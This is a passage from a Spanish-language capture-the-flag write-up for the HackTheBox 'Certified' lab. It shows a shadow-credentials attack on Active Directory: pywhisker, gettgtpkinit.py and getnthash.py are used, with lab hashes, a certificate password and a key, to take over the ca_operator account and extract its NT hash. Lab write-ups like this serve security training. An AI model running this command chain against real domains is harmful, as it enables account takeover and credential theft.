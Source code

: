 ![path3](../../../../../assets/certified/path3.png)

Volvemos a usar `pywhisker` para obtener nuestra contraseña y el archivo `.pfx`, esta vez como el usuario _management_svc_ atacando a _ca_operator_.

```python
pywhisker -d "certified.htb" -u "management_svc" --hashes :a091c1832bcdd4677c28b5a6a1295584 --target "ca_operator" --action "add"
```

Y repetimos el proceso anterior.

- 1º Creamos el TGT:

```
python3 gettgtpkinit.py -cert-pfx ../mmzBceHE.pfx -pfx-pass cBdb8wYDwF93taIIZe7L -dc-ip 10.10.11.41 certified.htb/ca_operator ca_operator.ccache
```
- 2º Generamos el hash:

```
KRB5CCNAME=ca_operator.ccache python3 getnthash.py -key d54f430c7131a345a23df9eb39dc13a56d3dbb85e292ce2628a19c906242c4b9 -dc-ip 10.10.11.41 certified.htb/ca_operator
```

Recuerda que las horas deben estar sincronizadas.

#### Dando privilegios de administrador

![info](../../../../../assets/certified/ca_operatorinfo.png)
